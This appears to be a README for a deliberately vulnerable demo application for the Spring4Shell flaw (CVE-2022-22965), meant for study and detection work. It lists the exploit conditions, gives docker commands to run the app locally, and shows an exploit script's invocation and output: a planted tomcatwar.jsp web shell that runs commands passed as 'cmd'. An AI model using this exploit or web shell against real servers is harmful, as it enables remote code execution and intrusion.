


# Spring4shell RCE vulnerability (CVE-2022-22965)

This vulnerability affects Spring Core and allows an attacker to send a specially crafted HTTP request to bypass protections in the library’s HTTP request parser, leading to remote code execution.

Read more: [The Spring4Shell vulnerability: Overview, detection, and remediation](https://www.datadoghq.com/blog/spring4shell-vulnerability-overview-and-remediation/).



In order for this vulnerability to be exploitable, several conditions must be met:
* Use JDK 9 or higher
* Have Apache Tomcat as the servlet container
* Be packaged as a traditional WAR (in contrast to a Spring Boot executable JAR)
* Use the `spring-webmvc` or `spring-webflux` dependency
* Use Spring framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, or older


## Running the application

Run it:

```
docker run --rm -p 8085:8080 --name springshell-rce-poc ghcr.io/datadog/spring4shell-vulnerable-app
```

Build it yourself:

```
docker build . -t spring4shell-vulnerable-app
docker run --rm -p 8085:8080 --name springshell-rce-poc spring4shell-vulnerable-app
```


## Exploitation steps

```
python exploit-poc.py --url "http://127.0.0.1:8085/"
```

Sample output:

```
exploiting
Shell URL: http://127.0.0.1:8085/tomcatwar.jsp?pwd=j&cmd=whoami
```

When you access this URL, it will run any command you pass in the query string.



If you go inside the running container, you will see that a new file, `tomcatwar.jsp`, has been created.

```
docker exec -it springshell-rce-poc /bin/bash
ls /usr/local/tomcat/webapps/ROOT
```
